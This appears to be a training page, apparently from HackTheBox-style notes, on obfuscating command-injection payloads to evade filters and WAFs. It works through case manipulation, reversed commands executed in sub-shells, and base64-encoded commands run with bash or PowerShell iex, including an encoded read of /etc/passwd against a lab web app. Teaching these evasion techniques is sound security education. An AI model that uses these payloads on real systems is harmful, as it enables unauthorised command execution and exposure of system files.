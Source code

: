 # Advanced Command Obfuscation

In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

***

## Case Manipulation

One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```powershell
PS C:\htb> WhOaMi

21y4d
```

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:

```shell-session
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

As we can see, the command did work, even though the word we provided was (`WhOaMi`). This command uses `tr` to replace all upper-case characters with lower-case characters, which results in an all lower-case character command. However, if we try to use the above command with the `Host Checker` web application, we will see that it still gets blocked:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

`Can you guess why?` It is because the command above contains spaces, which is a filtered character in our web application, as we have seen before. So, with such techniques, `we must always be sure not to use any filtered characters`, otherwise our requests will fail, and we may think the techniques failed to work.

Once we replace the spaces with tabs (`%09`), we see that the command works perfectly:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are many other commands we may use for the same purpose, like the following:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

{% hint style="success" %}
**Exercise:** Can you test the above command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
{% endhint %}

***

## Reversed Commands

Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:

```shell-session
$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:

```shell-session
$ $(rev<<<'imaohw')

21y4d
```

We see that even though the command does not contain the actual `whoami` word, it does work the same and provides the expected output. We can also test this command with our exercise, and it indeed works:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Tip:** If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.
{% endhint %}

The same can be applied in `Windows.` We can first reverse a string, as follows:

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

***

## Encoded Commands

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):

```shell-session
$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

```shell-session
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

As we can see, the above command executes the command perfectly. We did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

{% hint style="info" %}
**Tip:** Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.
{% endhint %}

Now we can use this command (once we replace the spaces) to execute the same command through command injection:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell-session
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with `Bash` or `PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).
